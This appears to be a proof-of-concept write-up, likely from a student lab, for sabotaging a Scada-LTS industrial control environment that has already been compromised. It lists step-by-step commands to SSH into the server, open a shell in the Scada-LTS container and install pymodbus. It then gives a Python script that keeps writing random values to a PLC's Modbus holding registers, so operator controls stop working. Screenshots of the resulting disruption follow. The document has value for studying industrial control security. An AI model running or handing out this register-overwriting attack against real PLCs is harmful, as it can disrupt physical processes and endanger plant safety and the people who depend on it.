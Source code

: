 # Change Modbus Registers Proof of Concept Vulnerability

After the ScadaLTS enviroment has been exploited and access has been granted over the system to the malicious entity, then the following steps can be taken to perform a modbus change exploit.

Step 1: Connect to the server.
```
ssh -D 1080 mcsestudent@145.52.126.50
```
Step 2: Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Step 3: Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

step 4: Run the code. There is no `nano` or `vim` but we can still write to a file with `echo 'some code' > test.py`
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

- End result

The registers should now start being overwritten with random data. This in turn makes it so that the modbus addresses cannot be used properly since they will keep changing from value even if the operator for example wants to change them by turning on a button. 

Figure 1: Modbus registers changing address non stop.

![](img/random_modbus.png)

Figure 2: ScadaLTS enviroment visibily showing values that are not in line with its use case.

![](img/scada_poc1.jpg)

Figure 3: In ScadaLTS the values are now also seen to be changing in the dataresources tab.

![](img/scada_poc2.jpg)
